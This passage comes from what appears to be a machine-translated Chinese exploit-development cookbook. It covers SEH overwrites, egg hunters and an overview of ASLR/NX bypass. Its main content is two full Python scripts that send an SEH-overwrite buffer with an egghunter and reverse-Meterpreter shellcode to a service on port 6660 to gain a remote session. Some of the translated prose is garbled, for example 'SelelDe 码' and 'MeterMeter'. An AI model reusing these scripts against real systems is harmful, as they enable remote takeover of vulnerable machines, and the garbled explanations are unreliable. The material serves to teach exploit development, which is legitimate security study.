        sock.send(buffer)
        print "Sent!!"
        sock.close()
```

以下屏幕截图显示了前面命令的输出：


30.  这次让我们在没有调试器的情况下运行它。我们将在 Kali 打开我们的处理程序，我们应该有 MeterMeter 访问权限：


# 另见

*   [https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/)
*   [http://resources.infosecinstitute.com/bypassing-seh-protection-a-real-life-example/](http://resources.infosecinstitute.com/bypassing-seh-protection-a-real-life-example/)

# 利用鸡蛋猎人

当内存中没有足够的空间连续放置外壳代码时，可以使用鸡蛋搜索。使用这种技术，我们用外壳代码作为唯一标记的前缀，然后鸡蛋猎人基本上会在内存中搜索该标记并执行外壳代码。
寻蛋器包含一组编程指令；它与外壳代码没有太大区别。有多个鸡蛋猎人可用。您可以通过 skape:[了解更多关于它们的信息以及它们如何处理本文 http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) 。

# 准备

我们将尝试利用一个鸡蛋猎人来开发我们在上一个配方中使用的相同软件。利用漏洞背后的逻辑与下图所示类似：



我们的目标是覆盖**nSEH**和**SEH**以使其跳转到蛋猎人外壳代码，当执行时，将在内存中查找并执行我们的外壳代码。

# 怎么做。。。

以下是演示如何使用蛋猎手的步骤：

1.  我们在 Windows XP 上启动软件并将其连接到调试器：


2.  我们已经知道崩溃字节和绕过 SAFESEH 的地址。
3.  现在我们需要添加鸡蛋猎人，然后使用它跳转到外壳代码。
4.  正如我们所知，鸡蛋猎人是一个外壳代码，使用外壳代码的基本规则是确保它没有任何坏字符。
5.  让我们看一下我们之前的利用：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        buffer = "USV "
        buffer += "\x41" * 962 #offset
        # 6 Bytes SHORT jump to shellcode
        buffer += "\xeb\x06\x90\x90"
        # POP+POP+RET 0x0f9a196a
        buffer += "\x6a\x19\x9a\x0f"
        buffer += "\x90" * 16
        #Shellcode Reverse meterpreter.
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72" 
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1" 
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        # NOP SLED
        buffer += "\x90" * (2504 - len(buffer))
        buffer += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer)
        print "Sent!!"
        sock.close()
```

6.  让我们考虑一下，SelelDe 码实际上不是在我们在内存中所做的 6 字节跳跃之后。在这种情况下，我们可以使用鸡蛋猎人对软件进行可靠的攻击。
7.  现在听起来很容易，但也有一些复杂的情况。我们需要按照图中提到的流程进行最终利用，但我们还需要确保代码中有足够的 NOP 来确保利用。

8.  这就是我们的攻击流应该是什么样子，在我们的例子中，我们有足够的内存来拥有外壳代码。但在其他情况下，我们可能没有那么多内存，或者外壳代码可能存储在内存中的其他地方。在这种情况下，我们可以进行鸡蛋狩猎，我们将在后面的食谱中介绍：


9.  按照前面的流程图，我们的外壳代码如下所示：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        #Egghunter Shellcode 32 bytes
        egghunter = ""
        egghunter += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\
          x2e\x3c\x05\x5a\x74"
        egghunter += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf
          \x75\xe7\xff\xe7"
        # 6 Bytes SHORT jump to shellcode
        nseh = "\xeb\x09\x90\x90"
        # POP+POP+RET 0x0f9a196a
        seh = "\x6a\x19\x9a\x0f"
        #Shellcode Reverse meterpreter. 360 bytes
        buffer = ""
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72"
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1"
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        nop = "\x90" * 301
        tag = "w00tw00t"
        buffer1 = "USV "
        buffer1 += nop * 2 + "\x90" * 360
        buffer1 += nseh + seh # 8
        buffer1 += "\x90" * 6 #
        buffer1 += egghunter
        buffer1 += nop
        buffer1 += tag
        buffer1 += buffer
        buffer1 += "\x90" * (3504 - len(buffer))
        buffer1 += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer1)
        print "Sent!!"
        sock.close()
```

10.  我们继续并将其保存为`script.py`并使用`python script.py`运行它。

11.  而且，我们应该有我们的计量员会议等着我们。

我们编写的漏洞攻击代码可能不会在每个系统上以完全相同的方式工作，因为根据操作系统版本、软件版本等存在多个依赖项。

# 另见

*   [https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/)
*   [http://www.fuzzysecurity.com/tutorials/expDev/4.html](http://www.fuzzysecurity.com/tutorials/expDev/4.html)

# ASLR 和 NX 旁路概述

**地址空间布局随机化**（**ASLR**于 2001 年由 PaX project 作为 Linux 补丁引入，并集成到 Windows Vista 和更高版本的操作系统中。它是一种内存保护，通过随机化内存中加载可执行文件的位置来防止缓冲区溢出。Windows Vista 上的 Internet Explorer 7 还引入了**数据执行防止**（**DEP**或**不执行**（**NX**）功能，它通过阻止内存中的代码执行（标记为不可执行）来帮助防止缓冲区溢出。

# 怎么做。。。

我们需要首先避开 ASLR。基本上有两种方式可以绕过 ASLR：

1.  我们寻找内存中加载的任何反 ASLR 模块。我们将有一个固定位置的任何模块的基址。从这里，我们可以使用**面向返回的编程**（**ROP**方法。我们将基本上使用代码的一小部分，然后是一条返回指令，并链接所有内容以获得所需的结果：



资料来源：https://www.slideshare.net/dataera/remix-ondemand-live-randomization-finegrained-live-aslr-during-runtime

2.  我们在这里得到指针泄漏/内存泄漏，我们调整偏移量以获取其指针泄漏的模块的基址。
3.  接下来，我们需要绕过 NX/DEP。为此，我们使用著名的*ret to libc*攻击（在 Linux 中）或 ROP 链接（在 Windows 中）。这种方法允许我们使用`libc`函数来执行外壳代码本应完成的任务。
4.  在 32 位系统中有另一种绕过 ASLR 的方法，因为与 64 位系统相比，32 位的地址空间相对较小。这使得随机化的范围更小，并且对暴力是可行的。
5.  这几乎是绕过 ASLR 和 DEP 的基本概念。有许多更高级的编写漏洞的方法，随着补丁的应用，每天都会发现新的方法来绕过这些方法。

# 另见

*   [https://www.trustwave.com/Resources/SpiderLabs-Blog/Baby-s-first-NX-ASLR-bypass/](https://www.trustwave.com/Resources/SpiderLabs-Blog/Baby-s-first-NX-ASLR-bypass/)
*   [http://taishi8117.github.io/2015/11/11/stack-bof-2/](http://taishi8117.github.io/2015/11/11/stack-bof-2/)
*   [https://www.exploit-db.com/docs/17914.pdf](https://www.exploit-db.com/docs/17914.pdf)
*   [http://tekwizz123.blogspot.com/2014/02/bypassing-aslr-and-dep-on-windows-7.html](http://tekwizz123.blogspot.com/2014/02/bypassing-aslr-and-dep-on-windows-7.html)
*   [https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/](https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/)